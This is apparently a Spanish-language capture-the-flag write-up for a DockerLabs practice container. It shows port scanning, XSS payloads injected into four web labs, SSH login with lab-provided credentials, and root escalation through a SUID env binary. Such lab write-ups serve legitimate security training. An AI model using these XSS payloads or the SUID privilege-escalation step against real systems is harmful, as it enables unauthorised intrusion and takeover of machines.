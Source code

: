 ![image](https://github.com/user-attachments/assets/7667d42f-6066-4428-9caf-3ff0c04b0dbb)

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p21,22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/899fca64-713d-4481-b02a-fb7deb91a1db)

## **Open Ports**

-PORT 80: Service HTTP

-PORT 22: Service SSH

## **let's launch a command to scan the WEB and report the technologies it uses**
```bash
whatweb http://172.17.0.2 | tee whatweb
```
![image](https://github.com/user-attachments/assets/fe6800b7-0f88-4629-b05a-4f12fc3de42e)

FASE INTRUSIÓN Y PRUEBAS EN ESTE CASO
Vemos 4 laboratorios:

-Laboratorio1 (reflected XSS) Nos dirigimos a el e inyectamos este comando:

<h1>Hola caraculo</h1>
o este otro

'"><img src=x onerror=alert(1) />
-Laboratorio2 (stored XSS) Nos dirigimos y ejecutamos:

<h1>XSS</h1>
<p style="color:blue;">COLOR_AZUL</p>
'"><img src=x onerror=alert(1) />
<h1>Hola caraculo</h1>
-laboratorio3 (XSS con Dropdowns) cacharreando dando a las opciones en la barra de navegador podemos ver esto:

http://172.17.0.2/laboratorio3/?opcion1=ValorA&opcion2=&opcion3=
aqui vamos a inyectar el XSS:

http://172.17.0.2/laboratorio3/?opcion1=ValorA&opcion2=&opcion3=<h1>HOLA</h1>
http://172.17.0.2/laboratorio3/?opcion1=ValorA&opcion2=&opcion3=<img src="x" onerror="alert(1)" />
-laboratorio4 (Reflected XSS a traves de la URL) podemos leer esto :

No hay contenido en el parámetro 'data'.
lo cual nos hace pensar que se puede inyectar cosas en el parametro dara, así que lo insertamos en la url: URL original :

http://172.17.0.2/laboratorio4/
url con el parametro data:

http://172.17.0.2/laboratorio4/?data=<h1>Hola</h1>
http://172.17.0.2/laboratorio4/?data=<img src="x" onerror="alert(1)" />
LAS INYECCIONES PUEDEN OBTENERSE DESDE VARIOS SITIOS, YO RECOMIENDO
https://book.hacktricks.wiki/en/index.html
en el buscador poneis XSS y os aparece mucha información También:

https://swisskyrepo.github.io/PayloadsAllTheThings
en el buscador XSS y lo mismo

FASE INTRUSIÓN PARTE 2
ahora por fin podemos darle al botón:

Click aquí cuando Hayas Completado los Laboratorios
y nos aparece esto:

Accede por SSH con estas credenciales SOLO cuando hayas completado los retos anteriores.
En caso contrario, el Writeup que subas a DockerLabs.es no se tendrá en cuenta.

Usuario: balu
Password: balulero
el user y pass para el ssh, así pues nos conectamos con ssh:

ssh balu@172.17.0.2
suelo ir en este orden:

1-listar grupos a los que pertenezco:

id
uid=1000(balu) gid=1000(balu) groups=1000(balu),100(users)
nada fuera de lo normal

2-mirar variable de entorno:

printenv
nada interesante

3- cat al /etc/passwd para saber usuarios del sistema

cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
balu:x:1000:1000:balu,,,:/home/balu:/bin/bash
balulito:x:1001:1001:balulito,,,:/home/balulito:/bin/bash
aparte del user balu que es el que somos tenemos balulito y root, esto puede suponer que hay que pivotar a otro usuario y luego a root

4- privilegios con sudo -l

sudo -l
nada

5- mirar suid y capability

aquí con el suid me valió

find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/env
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
tenemos por ahí /usr/bin/env que no suele estar, vamos a la página:

https://gtfobins.github.io/
el el buscador introducimos

env
y de este binario podemos consultar /Shell/SUID/Sudo

como vimos tiene privilegios suid, podemos comprobarlo así:

ls -la /usr/bin/env
-rwsr-xr-x 1 root root 48536 Sep 20  2022 /usr/bin/env
ahí podemos ver la s de suid

en gtfobin nos dice esto en la parte SUI:

./env /bin/sh -p
entonces lo adaptamos a nuestras necesidades:

/usr/bin/env /bin/bash -p
lo ejecutamos y:

balu@6858f5cbddcc:~$ /usr/bin/env /bin/bash -p
bash-5.2# id
uid=1000(balu) gid=1000(balu) euid=0(root) groups=1000(balu),100(users)
bash-5.2# whoami
root
bash-5.2# 
